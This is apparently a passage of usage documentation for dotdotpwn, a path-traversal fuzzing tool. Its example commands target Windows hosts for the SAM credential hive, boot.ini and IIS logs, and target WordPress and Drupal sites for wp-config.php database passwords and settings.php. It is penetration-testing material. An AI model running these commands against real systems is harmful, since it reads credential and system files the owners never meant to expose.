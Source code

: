 #### Windows System Testing  
```bash
# NEW: Comprehensive Windows testing with absolute paths
python dotdotpwn.py --module http --host windows.server.com --file "c:\\windows\\system32\\config\\sam" --absolute --depth 5
# Generates patterns like: c:\windows\system32\config\sam, %2fc%5cwindows%5csystem32%5cconfig%5csam

# NEW: Test critical Windows files
python dotdotpwn.py --module http --host windows.server.com --file "c:\\boot.ini" --absolute --pattern "Windows"
python dotdotpwn.py --module http --host iis.server.com --file "c:\\inetpub\\logs\\logfiles\\w3svc1\\ex*.log" --absolute --pattern "GET"

# NEW: Generate Windows patterns
python dotdotpwn.py generate --os-type windows --file "c:\\windows\\system32\\config\\sam" --depth 6 --absolute > windows_patterns.txt
```

### CMS Vulnerability Testing

**Scenario**: Testing popular Content Management Systems with enhanced absolute path detection.

#### WordPress Testing
```bash
# NEW: WordPress with absolute path detection
python dotdotpwn.py --module http --host wordpress.site.com --file wp-config.php --pattern "DB_PASSWORD" --depth 8 --absolute

# NEW: Using multiple parameter aliases
python dotdotpwn.py --module http --host wordpress.site.com -f wp-config.php --pattern "DB_PASSWORD" --absolute
python dotdotpwn.py --module http --host wordpress.site.com --target-file wp-config.php --pattern "DB_PASSWORD" --absolute  
python dotdotpwn.py --module http --host wordpress.site.com --specific-file wp-config.php --pattern "DB_PASSWORD" --absolute

# WordPress admin files with absolute paths
python dotdotpwn.py --module http --host wordpress.site.com --file wp-admin/setup-config.php --pattern "wp-config" --depth 6 --absolute

# With authentication and absolute paths
python dotdotpwn.py --module http --host wordpress.site.com --username admin --password password123 --file wp-config.php --pattern "DB_" --absolute
```

#### Drupal Testing
```bash
# Drupal settings
python dotdotpwn.py --module http --host drupal.site.com --file sites/default/settings.php --pattern "database" --depth 8

# Drupal configuration
python dotdotpwn.py --module http --host drupal.site.com --file .htaccess --pattern "RewriteEngine" --depth 6
```
